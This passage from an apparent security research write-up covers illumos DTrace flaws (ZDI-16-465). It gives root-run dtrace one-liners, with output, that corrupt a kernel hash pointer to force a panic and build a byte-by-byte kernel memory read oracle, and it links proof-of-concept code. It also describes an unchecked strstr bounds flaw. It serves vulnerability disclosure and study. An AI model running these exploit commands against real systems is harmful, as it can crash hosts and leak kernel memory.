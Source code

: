         0xffffff00efa5c2d8-0x28,0x28::dump

                            \/
        0xffffff00efa5c2b0: d0c2a5ef 00ffffff 01000000 00000000
        0xffffff00efa5c2c0: 01000000 00000000 00000000 00000000
        0xffffff00efa5c2d0: ff000000 00000000 68000000 00000000

3. We can change the pointer stored in the `dttk_value` field by doing:
`*(unsigned long*)addr = 0xdeadbeefdeadbeefL` and trigger a kernel panic by
looking up a value in the hash by doing `&hash[1,buf][0]`.

        [root@web01 ~]# dtrace -n 'char buf[1]; BEGIN {buf[0]=0xff;hash[1,buf]="h";addr = (&hash[1, buf][0]) - 0x28; print(addr); *(unsigned long*)addr = 0xdeadbeefdeadbeefL; &hash[1,buf][0]}'
        dtrace: description 'char buf[1]' matched 1 probe

4. We can turn this into a memory oracle by instead of putting a rubbish address
we put the address of a value we want to check and if we have dynvarsize=36 then
dtrace will only return a hash value if the byte at the address is equal to the
original `buf[0]=??` key. This is because the case where they are not equal
dtrace will try to allocate another chunk in the hash but there is no more
space for this chunk.


Example where the byte mismatches `buf[0]=0xff`:

    [root@web01 ~]# dtrace -x dynvarsize=36 -n 'char buf[1]; BEGIN {buf[0]=0xff;hash[1,buf]="h";addr = (&hash[1, buf][0]) - 0x28; *(void**)addr = &`dtrace_dynhash_sink; print(&hash[1,buf][0])}'
    dtrace: description 'char buf[1]' matched 1 probe
    dtrace: 1 dynamic variable drop

Example where the byte matches `buf[0]=0x1`:

    [root@web01 ~]# dtrace -x dynvarsize=36 -n 'char buf[1]; BEGIN {buf[0]=0x1;hash[1,buf]="h";addr = (&hash[1, buf][0]) - 0x28; *(void**)addr = &`dtrace_dynhash_sink; print(&hash[1,buf][0])}'
    dtrace: description 'char buf[1]' matched 1 probe
    CPU     ID                    FUNCTION:NAME
      0      1                           :BEGIN char * 0xffffff00d80cb4d8


Doing 256 syscalls to read 1 byte is slow but the global ps is still responsive :)

[POC Code on Github](https://github.com/benmmurphy/illumos_playground/blob/master/ZDI-16-465/global_ps3.c)

DTrace STRSTR
=============

If you look at the [DTrace user guide](https://docs.oracle.com/cd/E37670_01/E38608/html/dt_strstr_actsub.html) it has this definition for the `strstr` function:

{% blockquote %}
    string strstr(const char *s, const char *subs)

    strstr returns a pointer to the first occurrence of the substring subs in the string s. If s is an empty string, strstr returns a pointer to an empty string. If no match is found, strstr returns 0.
{% endblockquote %}

The `dtrace_canload` function takes a pointer and a size for checking whether a range can be accessed. However, the `strstr` function just takes a pointer to a string. How is it possible for `strstr` to call `dtrace_canload` to check whether the string can be safely searched? The [original implementation](https://github.com/joyent/illumos-joyent/blob/release-20160218/usr/src/uts/common/dtrace/dtrace.c#L4257) only checked `dtrace_canload` after the string had been searched.
